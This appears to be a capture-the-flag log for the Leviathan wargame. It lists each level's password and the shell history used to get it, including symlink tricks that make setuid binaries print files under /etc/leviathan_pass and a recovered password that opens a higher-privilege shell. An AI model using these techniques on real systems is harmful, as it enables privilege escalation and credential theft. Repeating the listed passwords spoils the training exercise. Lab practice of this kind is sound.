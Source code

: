 # LEVIATHAN

## level 0
3QJ3TgzHDq
## level 1
NsN1HwFoyN
## level 2
f0n8h2iWLP
    1  mktemp -d
    2  touch /tmp/tmp.UPkwjQdgjI/"test file.txt"
    3  ls -la /tmp/tmp.UPkwjQdgjI
    4  ltrace ./printfile /tmp/tmp.UPkwjQdgjI/"test file.txt"
    5  ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp.UPkwjQdgjI/test
    6  ls -la /tmp/tmp.UPkwjQdgjI
    7  chmod 777 /tmp/tmp.UPkwjQdgjI
    8  ./prinfile /tmp/tmp.UPkwjQdgjI/"test file.txt"
    9  ./printfile /tmp/tmp.UPkwjQdgjI/"test file.txt"
    10  history
## level 3
WG1egElCvO
    1  pwd
    2  whoami
    3  ls -la
    4  ./level3
    5  ltrace level3
    6  ltrace ./level3
    7  ./level3
    8   leviathan3@gibson:~$ ./level3
        Enter the password> snlprintf
        [You've got shell]!
    9   $ whoami
        leviathan4
    10  $ cat /etc/leviathan_pass/leviathan4
        WG1egElCvO
    11  $ exit
    12  history

## level 4
0dyxT7F4QD
    1  pwd
    2  ls -la
    3  cd .trash
    4  ls
    6  ./bin
    7  echo 0011000001100100011110010111100001010100001101110100011000110100010100010100010000001010 | perl -lpe '$_=pack"B*",$_'
    8  history

## level 5
szo7HDB88w
    1  pwd
    2  whoami
    3  ls -la
    4  ./leviathan5
    5  ltrace ./leviathan5
    6  touch /tmp/file.log
    7  ./leviathan5
    8    ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
    9  ./leviathan5
    10  history